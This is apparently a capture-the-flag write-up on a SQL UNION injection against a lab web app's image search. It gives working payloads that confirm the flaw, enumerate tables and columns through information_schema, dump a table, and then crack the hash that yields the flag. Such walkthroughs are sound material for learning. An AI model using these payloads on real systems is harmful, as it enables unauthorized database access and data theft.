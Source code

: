 # SQL UNION ATTACK
A union attack attempts to pull information from an additional table that is not the current table that is being queried.

### Step 1
> * Input is data search using ID's, try tentative search with integer and then without

### Step 2
> * Confirm SQL vulnerabitlity with 1 = 1 or 1, this one however does not return error messages

### Step 3
> * Attack
> 1. Confirm number off return columns and data types
 > * trial and error:  
> _1 = 1 or 1 ORDER BY 1_...  
> _UNION SELECT ‘a’,NULL_...
>
> 2. Find tables within current database  
 >_1 or 1 = 1 UNION SELECT 1,concat(table_name) FROM information_schema.tables WHERE table_schema = database()_  
> **list_images**
>
>3. Find columns within desired table  
 >_1 and 1=2 union select 1,group_concat(column_name) from information_schema.columns where table_schema = database()_  
>**id,url,title,comment**
>4. Find data  
 >_1 and 1=2 union select 1,concat(id,url,title,comment) from list_images_  
 <br>**5borntosec.ddns.net/images.pngHack me ?If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46**  
 <br>_MD5 DECRYPT-> 1928e8083cf461a51303633093573c46 => albatroz_  
 <br> _toLower -> albatroz => albatroz_  
 <br>_Sh256 ENCRYPT -> albatroz => **f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188**_  

* https://medium.com/@nyomanpradipta120/sql-injection-union-attack-9c10de1a5635

